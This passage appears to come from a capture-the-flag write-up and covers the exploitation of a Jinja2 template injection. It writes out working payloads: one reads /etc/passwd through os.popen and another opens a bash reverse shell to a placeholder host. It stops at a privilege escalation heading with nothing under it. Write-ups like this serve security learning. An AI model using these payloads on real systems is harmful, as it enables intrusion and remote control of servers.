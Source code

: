 ## EXPLOITATION


After testing some payloads, we could use this:

`{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}`
![Pasted image 20240916182013.png](../../../../IMAGES/Pasted%20image%2020240916182013.png)

Lets get a reverse shell:
`{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"').read() }}`

![Pasted image 20240916182929.png](../../../../IMAGES/Pasted%20image%2020240916182929.png)

Spawning a stable shell:

[Shell Tricks](../../../../Commands/Shell%20Tricks/Shell%20Tricks.md)

![Pasted image 20240916183201.png](../../../../IMAGES/Pasted%20image%2020240916183201.png)
Now that we've got a stable shell, lets start privilege escalation

## Privilege Escalation

![Pasted image 20240916183323.png](../../../../IMAGES/Pasted%20image%2020240916183323.png)
